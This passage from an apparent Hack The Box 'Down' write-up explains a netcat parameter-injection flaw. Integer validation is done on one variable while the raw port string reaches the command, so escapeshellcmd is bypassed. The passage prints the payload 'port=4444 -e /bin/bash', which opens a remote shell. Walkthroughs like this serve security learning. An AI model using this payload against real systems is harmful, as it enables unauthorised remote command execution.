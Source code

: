 Reading `index.php` reveals two code paths:
1. the normal curl-based URL checker, and
2. an **Expert Mode** gated behind `?expertmode=tcp`, which exposes a raw TCP port check implemented by calling **netcat**.

Visiting `/index.php?expertmode=tcp` loads a second form that takes an IP and a port.
![](/img/htb_img/Down_img/img5.png)

## Parameter injection in netcat
The expert path **validates** the _integer-converted_ port (**`$port_int`**) but later constructs the command with the **original** string (**`$port`**). That defeats the intent of validation. `escapeshellcmd` blocks metacharacters for command injection, but it **does not** prevent **parameter injection**-we can still pass valid-looking option switches.

Classic netcat payload:
```
port=4444 -e /bin/bash
```
